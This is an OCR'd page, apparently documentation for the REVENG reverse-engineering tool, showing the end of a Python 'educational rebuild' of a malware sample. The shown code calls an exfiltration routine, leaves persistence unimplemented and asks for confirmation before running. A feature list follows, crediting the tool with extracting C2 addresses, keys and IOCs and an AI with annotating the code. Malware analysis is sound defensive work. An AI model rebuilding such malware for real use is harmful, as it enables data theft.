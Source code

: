 ```python
    success = exfil.exfiltrate(encrypted_data)

    if success:
        print("[+] Exfiltration successful!")
    else:
        print("[-] Exfiltration failed!")

    # Step 5: Setup persistence (NOT implemented here for safety)
    # Original: setup_persistence() at 0x404000
    print("[*] Persistence setup skipped (educational rebuild)")

if __name__ == "__main__":
    # Safety check - prevent accidental execution
    response = input("This is malware behavior. Run for analysis? (yes/no): ")
    if response.lower() == 'yes':
        main()
    else:
        print("Execution cancelled.")
```

---

## What REVENG Provided vs What Claude Did

### ✅ REVENG's Contributions:

1. **Static Analysis (100% automated)**
   - Decompiled all functions to C
   - Identified function purposes
   - Extracted all hardcoded values
   - Mapped control flow
   - Detected algorithms (AES-256-CBC)
   - Found IOCs (C2 server, file paths, registry keys)

2. **Code Enhancement (AI-assisted)**
   - Renamed variables semantically
   - Added helpful comments
   - Suggested better function names
   - Made code highly readable

3. **Intelligence Extraction**
   - Encryption keys and IVs
   - C2 server addresses
   - File paths targeted
   - Registry persistence locations
   - Network protocol details

4. **High-Level Understanding**
   - Natural language Q&A
   - Capability detection
   - Threat assessment
   - IOC extraction
